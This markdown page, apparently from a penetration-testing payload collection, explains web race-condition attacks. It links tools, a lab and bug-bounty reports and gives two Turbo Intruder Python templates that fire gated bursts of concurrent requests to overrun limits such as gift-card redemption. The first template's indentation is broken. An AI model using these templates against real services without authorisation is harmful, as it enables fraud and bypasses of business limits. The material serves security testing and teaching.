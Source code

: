 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

- [Race Condition](#race-condition)
  - [Summary](#summary)
  - [Tools](#tools)
  - [Labs](#labs)
  - [Limit-overrun](#limit-overrun)
  - [Rate-limit bypass](#rate-limit-bypass)
  - [Turbo Intruder](#turbo-intruder)
    - [Example 1](#example-1)
    - [Example 2](#example-2)
  - [References](#references)


## Tools

* [Turbo Intruder - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.](https://github.com/PortSwigger/turbo-intruder)


## Labs

* [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)


## Limit-overrun

TODO

**Examples**:

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
* [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)


## Rate-limit bypass

TODO

**Examples**:

* []()


## Turbo Intruder

### Example 1

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"


### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

* [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle](https://youtu.be/tKJzsaB1ZvI)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle - 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - Apr 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Race conditions on the web - Josip Franjkovic - July 12th, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [New techniques and tools for web race conditions - Emma Stocks - 10 August 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)